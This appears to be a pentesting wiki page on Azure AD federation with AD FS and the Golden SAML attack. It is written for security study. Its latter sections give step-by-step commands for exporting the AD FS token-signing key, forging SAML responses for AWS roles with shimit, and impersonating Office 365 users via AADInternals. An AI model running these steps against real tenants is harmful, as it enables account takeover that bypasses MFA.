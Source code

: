 # Az - Federation

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-fed)

>**Federation** is a collection of **domains** that have established **trust**. The level of trust may vary, but typically includes **authentication** and almost always includes **authorization**. A typical federation might include a **number of organizations** that have established **trust** for **shared access** to a set of resources.
>You can **federate your on-premises** environment **with Azure AD** and use this federation for authentication and authorization. This sign-in method ensures that all user **authentication occurs on-premises**. This method allows administrators to implement more rigorous levels of access control. Federation with **AD FS** and PingFederate is available.

![](../../../../images/image (154).png)

Basically, in Federation, all **authentication** occurs in the **on-prem** environment and the user experiences SSO across all the trusted environments. Therefore, users can **access** **cloud** applications by using their **on-prem credentials**.

**Security Assertion Markup Language (SAML)** is used for **exchanging** all the authentication and authorization **information** between the providers.

In any federation setup there are three parties:

- User or Client
- Identity Provider (IdP)
- Service Provider (SP)

![https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](../../../../images/image (121).png)

*https://www.cyberark.com/resources/threat\-research\-blog/golden\-saml\-newly\-discovered\-attack\-technique\-forges\-authentication\-to\-cloud\-apps*

1. Initially, an application (Service Provider or SP, such as AWS console or vSphere web client) is accessed by a user. This step might be bypassed, leading the client directly to the IdP (Identity Provider) depending on the specific implementation.
2. Subsequently, the SP identifies the appropriate IdP (e.g., AD FS, Okta) for user authentication. It then crafts a SAML (Security Assertion Markup Language) AuthnRequest and reroutes the client to the chosen IdP.
3. The IdP takes over, authenticating the user. Post-authentication, a SAMLResponse is formulated by the IdP and forwarded to the SP through the user.
4. Finally, the SP evaluates the SAMLResponse. If validated successfully, implying a trust relationship with the IdP, the user is granted access. This marks the completion of the login process, allowing the user to utilize the service.

**If you want to learn more about SAML authentication and common attacks go to:**

[[https://book.hacktricks.wiki/en/pentesting-web/saml-attacks/index.html]]

## Pivoting

- AD FS is a claims-based identity model.
- "..claimsaresimplystatements(forexample,name,identity,group), made about users, that are used primarily for authorizing access to claims-based applications located anywhere on the Internet."
- Claims for a user are written inside the SAML tokens and are then signed to provide confidentiality by the IdP.
- A user is identified by ImmutableID. It is globally unique and stored in Azure AD.
- TheImmuatbleIDisstoredon-premasms-DS-ConsistencyGuidforthe user and/or can be derived from the GUID of the user.
- More info in [https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims](https://learn.microsoft.com/en-us/windows-server/identity/ad-fs/technical-reference/the-role-of-claims)

**Golden SAML attack:**

- In ADFS, SAML Response is signed by a token-signing certificate.
- If the certificate is compromised, it is possible to authenticate to the Azure AD as ANY user synced to Azure AD!
- Just like our PTA abuse, password change for a user or MFA won't have any effect because we are forging the authentication response.
- The certificate can be extracted from the AD FS server with DA privileges and then can be used from any internet connected machine.
- More info in [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

### Golden SAML

The process where an **Identity Provider (IdP)** produces a **SAMLResponse** to authorize user sign-in is paramount. Depending on the IdP's specific implementation, the **response** might be **signed** or **encrypted** using the **IdP's private key**. This procedure enables the **Service Provider (SP)** to confirm the authenticity of the SAMLResponse, ensuring it was indeed issued by a trusted IdP.

A parallel can be drawn with the [golden ticket attack](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/index.html#golden-ticket), where the key authenticating the user’s identity and permissions (KRBTGT for golden tickets, token-signing private key for golden SAML) can be manipulated to **forge an authentication object** (TGT or SAMLResponse). This allows impersonation of any user, granting unauthorized access to the SP.

Golden SAMLs offer certain advantages:

- They can be **created remotely**, without the need to be part of the domain or federation in question.
- They remain effective even with **Two-Factor Authentication (2FA)** enabled.
- The token-signing **private key does not automatically renew**.
- **Changing a user’s password does not invalidate** an already generated SAML.

#### AWS + AD FS + Golden SAML

[Active Directory Federation Services (AD FS)](<https://docs.microsoft.com/en-us/previous-versions/windows/server-2008/bb897402(v=msdn.10)>) is a Microsoft service that facilitates the **secure exchange of identity information** between trusted business partners (federation). It essentially allows a domain service to share user identities with other service providers within a federation.

With AWS trusting the compromised domain (in a federation), this vulnerability can be exploited to potentially **acquire any permissions in the AWS environment**. The attack necessitates the **private key used to sign the SAML objects**, akin to needing the KRBTGT in a golden ticket attack. Access to the AD FS user account is sufficient to obtain this private key.

The requirements for executing a golden SAML attack include:

- **Token-signing private key**
- **IdP public certificate**
- **IdP name**
- **Role name (role to assume)**
- Domain\username
- Role session name in AWS
- Amazon account ID

_Only the items in bold are mandatory. The others can be filled in as desired._

To acquire the **private key**, access to the **AD FS user account** is necessary. From there, the private key can be **exported from the personal store** using tools like [mimikatz](https://github.com/gentilkiwi/mimikatz). To gather the other required information, you can utilize the Microsoft.Adfs.Powershell snapin as follows, ensuring you're logged in as the ADFS user:

```bash
# From an "AD FS" session
# After having exported the key with mimikatz

# ADFS Public Certificate
[System.Convert]::ToBase64String($cer.rawdata)

# IdP Name
(Get-ADFSProperties).Identifier.AbsoluteUri

# Role Name
(Get-ADFSRelyingPartyTrust).IssuanceTransformRule
```

With all the information, it's possible to forget a valid SAMLResponse as the user you want to impersonate using [**shimit**](https://github.com/cyberark/shimit)**:**

```bash
# Apply session for AWS cli
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012
# idp - Identity Provider URL e.g. http://server.domain.com/adfs/services/trust
# pk - Private key file full path (pem format)
# c - Certificate file full path (pem format)
# u - User and domain name e.g. domain\username (use \ or quotes in *nix)
# n - Session name in AWS
# r - Desired roles in AWS. Supports Multiple roles, the first one specified will be assumed.
# id - AWS account id e.g. 123456789012

# Save SAMLResponse to file
python .\shimit.py -idp http://adfs.lab.local/adfs/services/trust -pk key_file -c cert_file -u domain\admin -n admin@domain.com -r ADFS-admin -r ADFS-monitor -id 123456789012 -o saml_response.xml
```

![https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](../../../../images/image (128).png)

*https://www.cyberark.com/resources/threat\-research\-blog/golden\-saml\-newly\-discovered\-attack\-technique\-forges\-authentication\-to\-cloud\-apps*

### On-prem -> cloud

```bash
# With a domain user you can get the ImmutableID of the target user
[System.Convert]::ToBase64String((Get-ADUser -Identity <username> | select -ExpandProperty ObjectGUID).tobytearray())

# On AD FS server execute as administrator
Get-AdfsProperties | select identifier

# When setting up the AD FS using Azure AD Connect, there is a difference between IssueURI on ADFS server and Azure AD.
# You need to use the one from AzureAD.
# Therefore, check the IssuerURI from Azure AD too (Use MSOL module and need GA privs)
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate a user to to access cloud apps
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```

It's also possible to create ImmutableID of cloud only users and impersonate them

```bash
# Create a realistic ImmutableID and set it for a cloud only user
[System.Convert]::ToBase64String((New-Guid).tobytearray())
Set-AADIntAzureADObject -CloudAnchor "User_19e466c5-d938-1293-5967-c39488bca87e" -SourceAnchor "aodilmsic30fugCUgHxsnK=="

# Extract the ADFS token signing certificate from the ADFS server using AADInternals
Export-AADIntADFSSigningCertificate

# Impersonate the user
Open-AADIntOffice365Portal -ImmutableID "aodilmsic30fugCUgHxsnK==" -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Desktop\ADFSSigningCertificate.pfx -Verbose
```

## References

- [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-fed)
- [https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)

